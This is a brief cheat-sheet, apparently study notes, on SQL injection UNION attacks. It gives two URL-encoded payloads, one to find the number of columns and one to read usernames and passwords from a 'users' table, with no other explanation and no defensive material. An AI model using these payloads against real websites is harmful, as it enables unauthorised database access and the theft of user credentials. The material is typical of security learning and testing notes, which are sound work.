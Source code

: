 # UNION attacks

Determine number of columns:

```sql
'+UNION+SELECT+'abc','def'--
```

* example is for 2 columns

Retrieve contents of `users` table:

```sql
'+UNION+SELECT+username,+password+FROM+users--
```







